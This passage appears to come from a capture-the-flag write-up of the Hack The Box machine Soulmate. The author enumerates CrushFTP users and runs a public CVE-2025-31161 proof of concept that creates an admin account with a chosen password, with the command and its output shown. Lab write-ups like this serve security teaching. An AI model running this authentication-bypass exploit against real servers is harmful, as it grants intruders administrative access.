 ```bash
[*] NEW SESSION: c2f=tgjC
[*] EXFILTRATED 5 USERS: ben, crushadmin, default, jenna, TempAccount
[*] VULNERABLE! RACE CONDITION POSSIBLE!
```

So this one got vulnerable and we know that this cve is about `CrushFTP Authentication Bypass Race Condition` so as the attacker can bypass the authentication via race condition to exfiltrated some users that we got from the output. <br>
Here is the things, we got to know that those users are available in `ftp.soulmate.htb` but how can we login like there is not password and this script just only list users only. <br>
&rarr; After searching more, we found out another one [CVE-2025-3116](https://github.com/Immersive-Labs-Sec/CVE-2025-3116) from [Immersive-Labs-Sec](https://github.com/Immersive-Labs-Sec) giving a poc that can exploit and able to create a new user with admin privileges and it also mention [CVE-2025-2825](https://nvd.nist.gov/vuln/detail/CVE-2025-2825) and also found out [CVE-2025-2825-CrushFTP-AuthBypass](https://github.com/Shivshantp/CVE-2025-2825-CrushFTP-AuthBypass) another poc for exploit and to understand more, we can check out this [crushftp-authentication-bypass](https://projectdiscovery.io/blog/crushftp-authentication-bypass).

We will go with [CVE-2025-3116](https://github.com/Immersive-Labs-Sec/CVE-2025-3116) this one.

### CVE-2025-31161/CVE-2025-2825
So we gonna target user `ben` and then create new user `2fa0n`.

```bash
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user ben --new_user 2fa0n --password 2fa0n
[+] Preparing Payloads
  [-] Warming up the target
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: 2fa0n
   [*] Password: 2fa0n.
```

Let's login with our new user to see if it works.

![Soulmate Website CrushFTP CVE-2025-31161](/assets/img/soulmate-htb-release-area-machine/soulmate-htb-release-area-machine_website-crushftp-cve-2025-31161.png)
